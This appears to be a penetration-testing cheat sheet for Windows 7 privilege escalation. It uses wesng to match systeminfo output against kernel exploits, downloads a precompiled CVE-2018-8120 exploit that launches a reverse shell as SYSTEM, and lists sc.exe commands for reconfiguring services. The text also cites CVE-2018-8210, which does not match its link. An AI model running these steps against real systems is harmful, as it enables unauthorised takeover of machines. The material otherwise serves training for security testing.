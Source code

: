 {% embed url="https://github.com/rasta-mouse/Watson" %}

(Note: These steps are for Windows 7)

1. Extract the output of the systeminfo command:

```
> systeminfo > systeminfo.txt
```

2. Run wesng on kali to find potential exploits:

```
# python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```

3. Cross-reference results with compiled exploits:&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}

4. Download the compiled exploit for CVE-2018-8210 onto the Windows VM:&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2018-8120/x64.exe" %}

4. Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with SYSTEM privileges:

<pre><code><strong>> .\x64.exe C:\PrivEsc\reverse.exe
</strong></code></pre>

## <mark style="color:red;">Service Exploits</mark>

Query the configuration of a service:

```
> sc.exe qc <name>
```

Query the current status of a service:

```
> sc.exe query <name>
```

Modify a configuration option of a service:

```
> sc.exe config <name> <option>= <value>
```

Start/Stop a service:

```
> net start/stop <name>
```

You could also need to reboot restart the machine to restart the service:

```
shutdown /r /t 0
```
